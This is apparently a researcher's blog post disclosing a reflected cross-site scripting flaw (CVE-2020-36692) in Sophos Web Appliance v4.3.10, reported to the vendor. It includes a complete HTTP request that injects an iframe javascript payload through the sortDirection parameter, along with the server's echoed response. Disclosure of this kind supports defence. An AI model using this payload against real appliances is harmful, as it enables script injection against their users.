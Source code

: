 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Sophos Web Appliance - v4.3.10"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos Web Appliance

Version affected: v4.3.10

#### Product description:
The Sophos Web Appliance is designed to function as a web proxy that provides HTTP security at. the gateway. Potentially risky content is scanned for various forms of malware.

"Sophos Web Appliance (SWA) and Sophos Management Appliance (SMA) will reach End of Life (EOL) on 20 July 2023. When this happens, the products will continue to pass traffic but will no longer receive security or software updates. Cloud services with functions such as support services and LiveConnect will be turned off."

* CVE ID: CVE-2020-36692
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

Tested on Firefox browser 76.0.1 (as of 15 May 2020, when it was reported to Sophos).

Vulnerable input section were possible to set to:
sortDirection and sortKey

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /index.php?c=report_scheduler HTTP/1.1
Content-Length: 116
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 10.0.0.15
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.6.1
Connection: keep-alive
Origin: https://10.0.0.15
Referer: https://10.0.0.15/index.php?c=report_scheduler&section=reports&STYLE=ea200102606123fe0ea40688110d6d0f
Accept: text/javascript, text/html, application/xml, text/xml, */*
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US

action=load&sortKey=name&sortDirection=asc<iframe src=javascript:alert(1) &STYLE=4de217dd48aa30993948de8601493ef2&_=

HTTP/1.1 200 OK
Date: Fri, 15 May 2020 08:30:27 GMT
Server: Apache
Cache-Control: no-store, no-cache, must-revalidate, private, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
X-Content-Type-Options: nosniff
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Content-Length: 144

{"sortKey":"name","sortDirection":"asc<iframe src=javascript:alert(1) ","schedulesJS":[],"schedulesList":"<ul id=\"table_entries_list\"><\/ul>"}
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://support.sophos.com/support/s/article/KB-000039441?language=en_US
3. https://docs.sophos.com/nsg/swa/help/en-us/nsg/swa/concepts/AboutYourAppliance.html
4. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36692
5. https://www.sophos.com/en-us/security-advisories/sophos-sa-20230404-swa-rce                                                 
6. https://www.sophos.com/en-us/content/product-lifecycle                                              
